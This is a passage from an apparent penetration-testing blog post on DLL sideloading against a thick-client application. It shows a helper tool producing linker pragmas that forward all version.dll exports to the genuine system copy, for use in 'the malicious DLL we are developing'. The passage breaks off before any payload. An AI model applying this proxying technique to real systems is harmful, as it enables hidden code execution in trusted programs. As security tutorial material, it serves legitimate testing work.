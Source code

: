 And the result:

![files](/assets/img/posts/2024-1-5-thick-client-domination/17.png)

It seems to be missing from that path! We can sideload it there with the original DLL being present in `C:/Windows/SysWOW64/`.

I developed a tool called [dll-proxy-helper](https://github.com/arimaqz/dll-proxy-helper) which retrieves all the exported functions of a given DLL and adds them to the forward statement and prints them to screen:

```
helper.exe c:/windows/syswow64/version.dll
```

```c
#pragma comment(linker, "/export:GetFileVersionInfoA=c:/windows/syswow64/version.dll.GetFileVersionInfoA")
#pragma comment(linker, "/export:GetFileVersionInfoByHandle=c:/windows/syswow64/version.dll.GetFileVersionInfoByHandle")
#pragma comment(linker, "/export:GetFileVersionInfoExA=c:/windows/syswow64/version.dll.GetFileVersionInfoExA")
#pragma comment(linker, "/export:GetFileVersionInfoExW=c:/windows/syswow64/version.dll.GetFileVersionInfoExW")
#pragma comment(linker, "/export:GetFileVersionInfoSizeA=c:/windows/syswow64/version.dll.GetFileVersionInfoSizeA")
#pragma comment(linker, "/export:GetFileVersionInfoSizeExA=c:/windows/syswow64/version.dll.GetFileVersionInfoSizeExA")
#pragma comment(linker, "/export:GetFileVersionInfoSizeExW=c:/windows/syswow64/version.dll.GetFileVersionInfoSizeExW")
#pragma comment(linker, "/export:GetFileVersionInfoSizeW=c:/windows/syswow64/version.dll.GetFileVersionInfoSizeW")
#pragma comment(linker, "/export:GetFileVersionInfoW=c:/windows/syswow64/version.dll.GetFileVersionInfoW")
#pragma comment(linker, "/export:VerFindFileA=c:/windows/syswow64/version.dll.VerFindFileA")
#pragma comment(linker, "/export:VerFindFileW=c:/windows/syswow64/version.dll.VerFindFileW")
#pragma comment(linker, "/export:VerInstallFileA=c:/windows/syswow64/version.dll.VerInstallFileA")
#pragma comment(linker, "/export:VerInstallFileW=c:/windows/syswow64/version.dll.VerInstallFileW")
#pragma comment(linker, "/export:VerLanguageNameA=c:/windows/syswow64/version.dll.VerLanguageNameA")
#pragma comment(linker, "/export:VerLanguageNameW=c:/windows/syswow64/version.dll.VerLanguageNameW")
#pragma comment(linker, "/export:VerQueryValueA=c:/windows/syswow64/version.dll.VerQueryValueA")
#pragma comment(linker, "/export:VerQueryValueW=c:/windows/syswow64/version.dll.VerQueryValueW")
``` 

This can be copied directly to the malicious DLL we are developing.
And now for the real fun:
